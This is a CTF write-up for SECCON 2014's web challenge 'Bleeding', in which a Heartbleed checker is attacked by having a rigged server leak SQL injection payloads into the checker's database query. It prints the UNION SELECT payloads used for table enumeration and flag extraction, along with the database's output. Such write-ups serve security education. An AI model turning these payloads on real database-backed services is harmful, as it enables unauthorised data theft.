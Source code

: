 # SECCON CTF 2014: Bleeding “Heartbleed” Test Web

**Category:** Web
**Points:** 300
**Description:**

> <http://bleeding.pwn.seccon.jp/>

## Write-up

The link points to a service that allows you to enter an IP address and a port number. The correspondingserver is then tested for the Heartbleed vulnerability.

Entering a random IP address (in this case, `173.194.65.100`, one of Google’s IPs) and port 443 results in the URL `http://bleeding.pwn.seccon.jp/?ip=173.194.65.100&port=443`, which displays the test results:

> ```
> Connecting...
> Sending Client Hello...
> Waiting for Server Hello...
>  ... received message: type = 22, ver = 0302, length = 61
>  ... received message: type = 22, ver = 0302, length = 3852
>  ... received message: type = 22, ver = 0302, length = 331
>  ... received message: type = 22, ver = 0302, length = 4
> Sending heartbeat request...
> ```

Below the test results, there is a disclaimer:

> We put test results into our database for analysis. Thank you for your understanding.

A-ha… Could this be a SQL injection challenge?

The HTML source code contains a comment:

```html
<!-- DEBUG: INSERT OK. TIME=1417889356 -->
```

This indicates that the server performs an `INSERT` query.

First, we need to set up a server that is vulnerable to Heartbleed, and that ‘bleeds’/leaks a payload under our control. Luckily, [PPP has already written a script doing just that for PlaidCTF](https://github.com/pwning/plaidctf2014/blob/master/web/heartbleed/Makefile). After some small tweaks to make it read the Heartbleed payload from a file (`/tmp/heartpayload`) at run-time rather than from a hardcoded string at compile-time, we end up with [`Makefile`](Makefile). Insert your server’s IP address at the top of the file, and then run:

```bash
$ make clean && make && ./heartbleed.sh
```

Entering your server details on the web page then takes you to <http://bleeding.pwn.seccon.jp/?ip=$your_server_ip&port=443>. By editing the `/tmp/heartpayload` file on our server and then reloading the above page, we can easily test different payloads.

Using just a single quote (`'`) as the payload results in the following error message:

> DATABASE ERROR!!! near ".": syntax error
>
> ```sql
> select time from results where result='Connecting... Sending Client Hello... Waiting for Server Hello... ... received message: type = 22, ver = 0302, length = 66 ... received message: type = 22, ver = 0302, length = 839 ... received message: type = 22, ver = 0302, length = 331 ... received message: type = 22, ver = 0302, length = 4 Sending heartbeat request... ... received message: type = 24, ver = 0302, length = 16384 Received heartbeat response: .@.'...... WARNING: server returned more data than it should - server is vulnerable! ';
> ```

It seems the server executes the abovementioned `INSERT` query, followed by a `SELECT` query just to fetch the matching timestamp that is displayed in the HTML comment.

After some attempts we realize we can override the timestamp value by using a payload like this:

```
' UNION SELECT 1337 WHERE 1=1 OR '1' LIKE '
```

The `1337` part of that payload is reflected in the HTML comment:

```html
<!-- DEBUG: INSERT OK. TIME=1337 -->
```

Since it seems to be a sqlite database, let’s try to figure out the table names:

```
' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table';--
```

The result:

```html
<!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt -->
```

So there are three tables: `results`, `ssFLGss`, and `ttDMYtt`. That second one seems interesting. Eventually we end up with this final payload:

```
' UNION SELECT flag from ssFLGss WHERE 1=1 OR '1' LIKE '
```

And the result:

```
<!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
```

The flag is `SECCON{IknewIt!SQLiteAgain!!!}`.

## Other write-ups and resources

* <http://tasteless.eu/2014/12/seccon-ctf-2014-online-qualifications-web300-writeup/>
* <https://www.youtube.com/watch?v=AmcWJSr-4C8>
